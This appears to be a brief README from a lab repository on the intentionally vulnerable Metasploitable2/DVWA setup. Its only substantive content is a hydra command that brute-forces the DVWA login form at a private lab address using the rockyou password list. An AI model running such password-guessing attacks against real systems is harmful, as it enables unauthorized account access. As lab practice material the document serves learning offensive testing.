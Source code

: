 # VDI-Metasploitable2

## Metasploitable.vdi

hydra dvwa get USERS

```bash
  hydra -l admin -P /home/kali/rockyou.txt 192.168.15.28 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&:Login=Conecte-se"
```
